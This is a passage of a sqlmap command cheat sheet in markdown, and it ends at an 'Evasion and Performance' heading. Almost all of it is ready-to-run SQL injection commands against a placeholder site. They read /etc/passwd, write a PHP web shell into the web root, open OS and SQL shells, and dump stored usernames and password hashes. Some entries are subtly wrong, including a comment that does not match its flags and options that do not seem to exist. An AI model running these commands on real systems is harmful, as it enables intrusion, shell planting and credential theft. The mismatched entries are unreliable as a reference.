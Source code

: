 ## File System Access

```bash
# Read system files
sqlmap -u "http://target.com/page.php?id=1" --file-read="/etc/passwd"

# Write files (if privileges allow)
sqlmap -u "http://target.com/page.php?id=1" --file-write="shell.php" --file-dest="/var/www/html/shell.php"

# OS command execution
sqlmap -u "http://target.com/page.php?id=1" --os-cmd="whoami"

# Interactive OS shell
sqlmap -u "http://target.com/page.php?id=1" --os-shell

# SQL shell
sqlmap -u "http://target.com/page.php?id=1" --sql-shell
```

## Authentication Bypass

```bash
# Password hash cracking
sqlmap -u "http://target.com/page.php?id=1" -D database -T users -C "username,password" --dump

# Custom wordlist for cracking
sqlmap -u "http://target.com/page.php?id=1" --passwords --common-tables

# Hash format specification
sqlmap -u "http://target.com/page.php?id=1" --dump --hash-format="md5"
```

## Session and Output Management

```bash
# Save session
sqlmap -u "http://target.com/page.php?id=1" -s session.sqlite

# Resume session
sqlmap -u "http://target.com/page.php?id=1" -s session.sqlite --resume

# Output directory
sqlmap -u "http://target.com/page.php?id=1" --output-dir="/tmp/sqlmap"

# Verbose output
sqlmap -u "http://target.com/page.php?id=1" -v 3
```

## Evasion and Performance
